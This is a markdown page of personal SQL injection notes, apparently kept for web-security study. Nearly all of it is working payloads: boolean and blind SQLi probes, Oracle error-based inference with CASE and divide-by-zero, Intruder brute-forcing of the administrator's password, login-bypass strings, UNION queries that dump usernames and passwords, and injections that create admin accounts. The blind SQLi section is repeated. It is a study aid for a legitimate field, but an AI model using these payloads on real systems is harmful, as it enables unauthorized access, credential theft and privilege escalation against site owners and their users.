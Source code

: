 # SQLi notes
Oracle Payloads: https://sites.google.com/a/michaelboman.org/www-michaelboman-org/books/sql-injection-cheat-sheet-oracle
MSSQL: REMEMBER TO COMMENT WITH `--%20`
#### Testing booleans (for BSQLi)
Remember to try `AND` `OR` `HAVING`  
we can test the ability bruteforce/presence of users by selecting a char, limiting to 1 and then comparing, so the below would become `a=a`  
`b' OR (select 'a' from users limit 1)='a`  
Now we can take a step further and confirm we have a user called "Administrator"  
`b' OR (select 'a' from users where username='administrator')='a`  
The ball keeps on rolling, and we can begin the makings of bruteforce attack by testing the length of password  
`b' OR (select 'a' from users where username='administrator' and length(password)>1)='a;`  
Once we have the length of the password we can bruteforce with a python script or intruder.
For intruder we use cluster bomb, and use the grep option to flag responses we know differ in `FALSE` and `TRUE`  
`b' OR (select substring (password,§1§,1) from users where username='administrator')='§a§`  

#### BlindSQL:
Truth must be "infered" generally with a sleep function, a 500 response, or DNS callout to webhooks/collaborator

Once we can get an injection, we need to confirm that the server is interpreting the injection as a valid query. This is done with a subquery.  
We initially send an empty query, if a 500 is returned, we may need to complete the query by selecting from a db. Ifreceive an error, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.
`' ||(select '')||'`  
`' ||(select '' from dual)||'`  
We can then start to infer information, such as the existence of `users`  
`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
We weaponise this using the CASE statement, which will test a condition and if true/false will evaluate an expression.  
So, in the event that CASE comes out TRUE, we divide by 0 - causing an error.  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`  
Now we start to infer the existence of information (users, passwords, tables, etc)  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
`'||(SELECT CASE WHEN length(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'` 
Length of password  
`'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'. Then send: TrackingId='||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

#### Example PoCs: [BlindSQLI Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/bruteforce_blindsqli.py) [BlindNOsqli Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/brute_mongoDB_nosqli.py)

#### Bypass login
`admin' UNION SELECT 'pass' AS password FROM admins WHERE '1' = '1` in username field and then `pass` in password field  
`' or 1 =1 LIMIT 1,1#`

#### To jump to other tables:
`' UNION SELECT username, password FROM users--`

#### Enumerate database columns
`SELECT * FROM information_schema.tables`

#### Grab DB name
`%’ or 0=0 union select null, database() #`

#### Grab all column contents
`%’ and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users # Click Submit`

#### Grab a pw
`1 or 1 =1 union Select 1, password from users`  
`1'union select null, concat_ws (char (32,58,32), user, password) from users #`
`' or (select 1 from (Select count(*),concat((select password from admins),"+",floor(rand()*2))a from information_schema.tables group by a)b)#`

#### Enumerate version:
`SELECT * FROM v$version`
`SELECT @@version`
`SELECT version()`

#### Create your own user:
`INSERT INTO users (username, password, ID, privs) VALUES ('nuadmin','pass',2248,1)`

#### Hijack user creation form to create a user with admin privs:
`nuadmin', 'pass', 9999, 0)--`

#### Enumerating columns:
Consider an online user search, its statement would be something like:

`SELECT * FROM users WHERE ID=1`

To enumerate what we can union select, we can add a union select, and keep adding columns until we no longer get errors.

`ID=1 UNION SELECT 1,2--` OR `ID=1 ORDER BY 4` OR `GROUP BY 1,2,3,4,5,6,7,8,9,10`

If data from only first part of query is returned, we can invalidate it:

`ID=1 AND 1=2 UNION SELECT 1,2,3--`

If this returns our own values, we can start emumerating sys info:

`id=1 and 1=2 union select version(), user(),3`

#### Quick tips:
space sanitisation can be defeated with `/**/`

sometimes adding a comment at the end of query can complete the injection `--` (postgresql) `#` (mysql) `--+-`

Sometimes a webpage will take a parameter as a string, not an int - in which case we close the quotes so our entire injection isnt considered one string:

`SELECT * FROM users WHERE ID=1'` *Remember you may need to close the attack with another apostrophe*

`UNION` only selects distnict, use `UNION ALL` to select duplicates

To begin an attack, try to break the string with an invalidation

Pay attention to the backend use of single and double quotes in errors

#### BlindSQL:
Truth must be "infered" generally with a sleep function

Once we can get an injection, we need to confirm that the server is interpreting the injection as a valid query. This is done with a subquery.  
We initially send an empty query, if a 500 is returned, we may need to complete the query by selecting from a db. Ifreceive an error, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.
`' ||(select '')||'`  
`' ||(select '' from dual)||'`  
We can then start to infer information, such as the existence of `users`  
`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`  
We weaponise this using the CASE statement, which will test a condition and if true/false will evaluate an expression.  
So, in the event that CASE comes out TRUE, we divide by 0 - causing an error.  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`  
Now we start to infer the existence of information (users, passwords, tables, etc)  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
`'||(SELECT CASE WHEN length(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
Now we bruteforce as before  
`'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  

### [Error Based SQLi](https://github.com/kymb0/web_study/blob/master/sqli/error_based_sqli.md)

